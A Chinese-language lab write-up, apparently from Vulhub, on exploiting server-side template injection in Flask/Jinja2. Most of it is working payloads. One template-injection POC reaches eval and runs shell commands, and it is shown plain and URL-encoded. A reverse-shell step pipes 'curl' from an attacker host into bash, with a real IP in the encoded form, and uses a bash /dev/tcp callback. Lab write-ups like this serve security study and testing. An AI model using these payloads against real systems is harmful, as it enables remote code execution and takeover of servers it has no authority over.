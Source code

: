# Flask（Jinja2） 服务端模板注入漏洞

## 漏洞描述

参考文章：

- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
- http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates

## 环境搭建

Vulhub编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8000/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。

<img src="https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231628824.png" alt="image-20220223162850741" style="zoom:67%;" />

## 漏洞复现

获取eval函数并执行任意python代码的POC：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

URL编码，添加以下Payload得到执行结果：

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

![image-20220223163008867](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231630914.png)

### 反弹shell

通过curl的方式反弹shell，bash.html文件内容：

```
/bin/bash -i >& /dev/tcp/your-ip/2333 0>&1
```

构造Payload：

```
http://flask-ip:8000/?name={% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("curl your-ip/bash.html | bash").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

URL编码后：

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22curl%20101.42.237.61/bash.html%20|%20bash%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

浏览器访问，监听2333端口，成功接收反弹shell。

![image-20220223175620604](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231756684.png)